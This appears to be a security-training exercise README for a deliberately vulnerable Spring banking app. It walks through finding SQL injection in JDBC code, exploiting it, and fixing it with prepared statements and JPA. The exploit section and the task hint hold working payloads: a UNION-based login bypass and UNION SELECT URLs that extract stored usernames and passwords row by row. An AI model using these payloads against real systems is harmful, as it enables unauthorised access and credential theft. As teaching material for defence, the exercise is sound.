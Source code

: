 # Exercise 3 - SQL injection
Exercise to help you understand SQL injection and its mitigations

## Setup and Start Applications

1. check out exercise3 
   * from command line: 'git checkout exercise3'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'

## Look for SQLi vulnerabilities
Hints:
* In java classes where database operations are carried out; in such classes an instance of the javax.sql.DataSource is injected:
```
    @Autowired
    private DataSource dataSource;
```
  * Please note that this is not an universal property of code vulnerable to SQLi, it only stands for classes in our application that is based on Java and Spring.
* Where SQL is concatenated in the code before passing it onto the JDBC api.
`connection.createStatement().executeQuery("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = '" + userName + "'")`

Present vulnerabilities:
* In the *JDBCUserDetailsService* class that is responsible for loading the UserDetails upon authentication
* In the *JDBCAccountService* class that is an implementation of the *AccountService* utilizing the JDBC API directly

## Exploit to understand
* The SQL in the JDBCUserDetailsService class is `"SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '" + uname + "'"`.
  This should be tweaked so to return USERNAME, PASSWORD pair with a known password:
`SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '' AND SELECT 'bob','password' --'`
using below input on login page:
  * username: ' UNION SELECT 'bob' AS USERNAME,'x' AS PASSWORD --
  * password: x
  This makes the code return a UserDetails object with the username (bob) and password (x) values set in the injected SQL snippet.
  Exploiting this SQLi vulnerability in the authentication component Alice could easily log in as Bob.
* The home page is calling a REST service at http://vbank.0.0.0.0.xip.io:8080/api/v1/account/ACCOUNT_NO where ACCOUNT_NO URL fragment is taken as the parameter of the SQL query selecting user details. This parameter is SQL injectable (due to *JDBCAccountService* class). 
  * we check if we can do UNION select on this parameter, injecting 4 additional result columns with an UNION injection into the original query: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT '1', '2','3','4' -- 
  * as this works we can use it to exfiltrate user credentials: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD, '3', '4' FROM USER --
  * since it returns only one row we have to iterate over the USER table: http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD,'3','4' FROM (SELECT ROWNUM() as ROW_NUM, USERNAME, PASSWORD FROM USER) WHERE ROW_NUM=1 --
  * increment ROW_NUM till it reaches the end of the USER table.

## Task
Use the transaction history page to exfiltrate data with SQL injection: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=ACCOUNT_NO (where account no is the SQL injectable parameter).
* Hint: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%272%27,%273%27,%274%27,%275%27,%276%27,%277%27%20--

## Mitigations
* use a parameterized API such as prepared statements 
* use an ORM (object-relational-mapping) tool for database operations (JPA: Java Persistence Api)
* validate/sanitize/escape user input

## Fix
1. Replace standard JDBC statements with prepared statements in *JDBCUserDetailsService* and *JDBCAccountService* 
1. Write a JPA based implementation for AccountService 
```
public class JDBCAccountService implements AccountService {
   ...
   public List<AccountDetails> getAccountDetailsForUser(String userName) {
       ...
            PreparedStatement preparedStatement = connection.prepareStatement("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = ?");
            preparedStatement.setString(1, userName);
            ResultSet resultSet = preparedStatement.executeQuery();
            ...
```

```
@Log
@Service
public class JPAAccountService implements AccountService {

    @Autowired
    private EntityManager entityManager;

    @Override
    @SneakyThrows
    public List<AccountDetails> getAccountDetailsForUser(String userName) {
        Query query = entityManager.createQuery("select ad from AccountDetails ad where ad.username = :uName");
        query.setParameter("uName", userName);
        return query.getResultList();
    }

    @Override
    @SneakyThrows
    public AccountDetails getAccountDetails(String accountNo) {
        return entityManager.find(AccountDetails.class, accountNo);
    }

    @Override
    @SneakyThrows
    @Transactional
    public boolean transfer(String fromAccountId, String toAccountId, BigDecimal amount, String currency, String note) {
        currency = currency.toUpperCase();
        AccountDetails toAccount = getAccountDetails(toAccountId);
        AccountDetails fromAccount = getAccountDetails(fromAccountId);
        //if both account exists we execute the transaction
        if (toAccount != null && fromAccount != null) {
            //update balance of fromAccount
            {
                BigDecimal newBalance = fromAccount.getBalance().subtract(amount);
                fromAccount.setBalance(newBalance);
            }
            //update balance of toAccount
            {
                BigDecimal newBalance = toAccount.getBalance().add(amount);
                toAccount.setBalance(newBalance);
            }
            // create transaction record
            {
                Transaction transaction = new Transaction();
                transaction.setFromAccountNo(fromAccountId);
                transaction.setToAccountNo(toAccountId);
                transaction.setAmount(amount);
                transaction.setCurrency(currency);
                transaction.setNote(note);
                transaction.setExecuted(true);
                entityManager.persist(transaction);
            }
            //
            entityManager.flush();
            return true;
        } else {
            // create transaction record
//            well, let's support only transactions between local accounts
            return false;
        }
    }

    @Override
    @SneakyThrows
    public List<Transaction> getTransactionHistory(String accountNo) {
        return entityManager.createQuery("select t from Transaction t where t.fromAccountNo = :accountNo or t.toAccountNo = :accountNo")
                .setParameter("accountNo", accountNo).getResultList();
    }
}
```

More on SQL injection prevention:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.md

